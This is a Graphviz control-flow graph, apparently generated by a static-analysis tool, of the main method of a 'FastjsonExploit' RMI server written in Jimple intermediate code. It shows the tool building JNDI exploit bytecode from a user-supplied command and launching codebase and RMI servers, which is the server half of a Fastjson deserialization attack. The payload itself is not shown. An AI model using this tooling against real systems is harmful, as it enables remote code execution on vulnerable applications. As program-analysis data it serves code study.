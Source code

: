 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 2 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[2];
"
    "Block 1:
[preds: 0 ] [succs: 2 ]
$r7 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.RMIServer ldap_host ldap_port [cmd/code]\");
staticinvoke <java.lang.System: void exit(int)>(0);
"
    "Block 2:
[preds: 0 1 ] [succs: ]
$r1 = r0[2];
$r2 = staticinvoke <gadget.Gadget: byte[] getJndiDataSourceFactory1ExpCode(java.lang.String)>($r1);
<util.Common: byte[] byteCode> = $r2;
r3 = r0[0];
$r4 = r0[1];
r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4);
i1 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3);
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i1);
$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1);
staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r5, r3, $r6);
return;
"
    "Block 0:
[preds: ] [succs: 1 2 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[2];
"->"Block 1:
[preds: 0 ] [succs: 2 ]
$r7 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.RMIServer ldap_host ldap_port [cmd/code]\");
staticinvoke <java.lang.System: void exit(int)>(0);
";
    "Block 0:
[preds: ] [succs: 1 2 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 3 goto $r1 = r0[2];
"->"Block 2:
[preds: 0 1 ] [succs: ]
$r1 = r0[2];
$r2 = staticinvoke <gadget.Gadget: byte[] getJndiDataSourceFactory1ExpCode(java.lang.String)>($r1);
<util.Common: byte[] byteCode> = $r2;
r3 = r0[0];
$r4 = r0[1];
r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4);
i1 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3);
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i1);
$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1);
staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r5, r3, $r6);
return;
";
    "Block 1:
[preds: 0 ] [succs: 2 ]
$r7 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"Usage: java -cp FastjsonExploit-<version>.jar server.RMIServer ldap_host ldap_port [cmd/code]\");
staticinvoke <java.lang.System: void exit(int)>(0);
"->"Block 2:
[preds: 0 1 ] [succs: ]
$r1 = r0[2];
$r2 = staticinvoke <gadget.Gadget: byte[] getJndiDataSourceFactory1ExpCode(java.lang.String)>($r1);
<util.Common: byte[] byteCode> = $r2;
r3 = r0[0];
$r4 = r0[1];
r5 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>($r4);
i1 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(r3);
staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r3, i1);
$r6 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i1);
staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r5, r3, $r6);
return;
";
}
